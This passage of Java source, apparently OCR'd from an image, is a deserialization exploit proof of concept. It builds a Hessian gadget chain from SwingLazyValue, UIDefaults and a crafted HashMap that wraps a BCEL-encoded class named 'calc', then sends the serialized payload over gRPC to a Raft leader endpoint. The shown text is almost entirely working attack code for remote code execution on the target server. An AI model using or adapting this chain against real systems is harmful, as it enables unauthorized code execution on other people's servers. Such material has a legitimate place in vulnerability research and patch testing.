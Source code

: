 ```java

        GrpcClient grpcClient = (GrpcClient) cliClientService.getRpcClient();

        //反射添加WriteRequest，不然会抛出异常
        Field parserClassesField = GrpcClient.class.getDeclaredField("parserClasses");
        parserClassesField.setAccessible(true);
        Map<String, Message> parserClasses = (Map) parserClassesField.get(grpcClient);
        parserClasses.put(WriteRequest.class.getName(),WriteRequest.getDefaultInstance());
        MarshallerHelper.registerRespInstance(WriteRequest.class.getName(),WriteRequest.getDefaultInstance());

        Object res = grpcClient.invokeSync(leader.getEndpoint(), request,5000);
        System.out.println(res);
    }

    private static byte[] build() throws Exception {
        JavaClass evil = Repository.lookupClass(calc.class);
        String payload = "$$BCEL$$" + Utility.encode(evil.getBytes(), true);

        SwingLazyValue slz = new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{payload}});
        UIDefaults uiDefaults1 = new UIDefaults();
        uiDefaults1.put("_", slz);
        UIDefaults uiDefaults2 = new UIDefaults();
        uiDefaults2.put("_", slz);

        HashMap hashMap = makeMap(uiDefaults1,uiDefaults2);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output oo = new Hessian2Output(baos);
        oo.setSerializerFactory(new SerializerFactory());
        oo.getSerializerFactory().setAllowNonSerializable(true);
        oo.writeObject(hashMap);
        oo.flush();

        return baos.toByteArray();
    }

    public static HashMap<Object, Object> makeMap ( Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }
    public static void setFieldValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```